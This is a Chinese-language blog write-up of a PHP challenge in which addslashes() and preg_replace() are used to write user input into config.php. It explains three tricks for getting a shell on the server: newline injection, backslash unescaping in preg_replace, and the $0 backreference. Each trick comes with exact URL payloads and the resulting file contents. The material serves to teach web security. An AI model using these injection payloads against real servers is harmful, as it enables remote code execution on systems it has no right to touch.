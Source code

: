 phithon师父在小蜜圈里放了一个经典的配置文件写入问题漏洞.
```php
<?php
if(!isset($_GET['option'])) die();
$str = addslashes($_GET['option']);
$file = file_get_contents('./config.php');
$file = preg_replace('|\$option=\'.*\';|', "\$option='$str';", $file);
file_put_contents('./config.php', $file);
```
config.php 的内容如下:
```php
<?php
$option='test';
```
要求是要getshell,这个场景十分经典，常用在修改配置文件写入的时候。
此处不存在之前说的那个配置文件中用的是"双引号"引起任意代码执行的问题,这这里面用的是单引号,而且 addslashes()处理过了,看似很安全,但是对于脑子里有个黑洞的搞安全的人来讲,这个还真是有问题的.

#### 方法一,利用换行符来绕过正则匹配的问题
可以看到正则匹配的是以下内容:
```php
$option='任意内容'
```
任意内容里面是可以包含转移符 \ 的,所以我们利用下面的方法:
```
http://127.0.0.1/index.php?option=a';%0aphpinfo();//
http://127.0.0.1/index.php?option=a
```
执行完第一个之后,config.php中的内容为:
```php
<?php
$option='a\';
phpinfo();//';
```
但是这样并没有办法执行phpinfo(),因为我们插入的 单引号 被转移掉了,所以phpinfo()还是在单引号的包裹之内.
我们在访问下面这个
```
http://127.0.0.1/index.php?option=a
```
因为正则 .* 会匹配行内的任意字符无数次.所以 \ 也被认为是其中的一部分,也会被替换掉,执行完之后,config.php中的内容为:
```php
<?php
$option='a';
phpinfo();//';
```
转义符就被替换掉了,就成功的getshell.

#### 方法二,利用 preg_replace函数的问题:
preg_replace函数在处理字符串的时候,会自动对第二个参数的 \ 这个字符进行反转移.
具体为啥要这样干,我也不太懂.
也就是说如果字符串是 "\\\'",经过 preg_replace()的处理,就变为 "\\'",单引号就逃出来了.
所以payload如下:
```
http://127.0.0.1/index.php?option=a\';phpinfo();//
```
config.php变为:
```php
<?php
$option='a\\';phpinfo();//';
```
道理就是  a\';phpinfo();//  经过 addslashes()处理之后,变为a\\\';phpinfo();// 然后两个反斜杠被preg_replace变成了一个,导致单引号逃脱.

#### 利用 preg_replace() 函数的第二个参数的问题
先看官方对preg_replace()函数的描述[manual](http://php.net/manual/zh/function.preg-replace.php)
函数原型:
```
mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
```
对replacement的描述.
> replacement中可以包含后向引用\\n 或(php 4.0.4以上可用)$n，语法上首选后者。 每个 这样的引用将被匹配到的第n个捕获子组捕获到的文本替换。 n 可以是0-99，\\0和$0代表完整的模式匹配文本。

所以我们可以用:
```
http://127.0.0.1/test/ph.php?option=;phpinfo();
http://127.0.0.1/test/ph.php?option=%00 或者 http://127.0.0.1/test/ph.php?option=$0
```
执行第一条后config.php的内容为:
```php
<?php
$option=';phpinfo();';
```
再执行第二条后config.php的内容为:
```php
<?php
$option='$option=';phpinfo();';';
```
刚好闭合掉了前后的两个单引号中间的逃脱出来了.想出这个办法的人,思路真是可以的.










d
